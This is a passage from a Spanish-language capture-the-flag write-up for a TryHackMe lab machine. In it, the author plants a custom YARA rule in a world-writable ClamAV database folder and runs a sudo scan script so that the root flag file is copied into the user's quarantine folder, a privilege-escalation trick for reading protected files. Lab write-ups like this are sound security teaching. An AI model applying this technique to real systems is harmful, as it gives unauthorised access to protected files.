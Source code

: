Pero básicamente podemos crear nuestra propia regla `YARA` para leer la bandera de la raíz, así:

```bash
cyrus@lockdown:/tmp$ cat rule.yar
rule PWNED
{
  strings:
    $a = "root"
    $b = "THM"
    
  condition:
    $b or $a
}
```
Esta regla buscará cualquier archivo con THM o raíz de "strings".

Ahora copiemos esta regla en la carpeta donde el script busca las bases de datos y las reglas ...
```bash
cyrus@lockdown:/tmp$ cd /var/lib/clamav
cyrus@lockdown:/var/lib/clamav$ ls -la
total 16
drwxrwxrwx  2 clamav clamav 4096 Oct 23 10:47 .
drwxr-xr-x 45 root   root   4096 Jul 30 20:30 ..
-rw-r--r--  1 root   root     46 Jul 23 20:07 main.hdb
-rw-r--r--  1 root   root     69 May 11 04:26 mirrors.dat
cyrus@lockdown:/var/lib/clamav$ cp /tmp/rule.yar .
```
Genial, ahora ejecutemos el script con sudo, ¡y usemos la ruta a la flag de root!

```bash
cyrus@lockdown:/var/lib/clamav$ sudo /opt/scan/scan.sh
Enter path: /root/root.txt
/root/root.txt: YARA.CheckFileName.UNOFFICIAL FOUND
/root/root.txt: copied to '/home/cyrus/quarantine/root.txt'

----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.018 sec (0 m 0 s)
Start Date: 2021:10:23 11:00:49
End Date:   2021:10:23 11:00:49
```

¡El exploit funcionó como se esperaba! Ahora tenemos un archivo en "cuarentena", ¡y este archivo es la bandera de la raíz! ¡¡¡Así que vamos a leerlo !!!

```bash
cyrus@lockdown:/var/lib/clamav$ cat /home/cyrus/quarantine/root.txt
THM{[REDACTADO]}
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!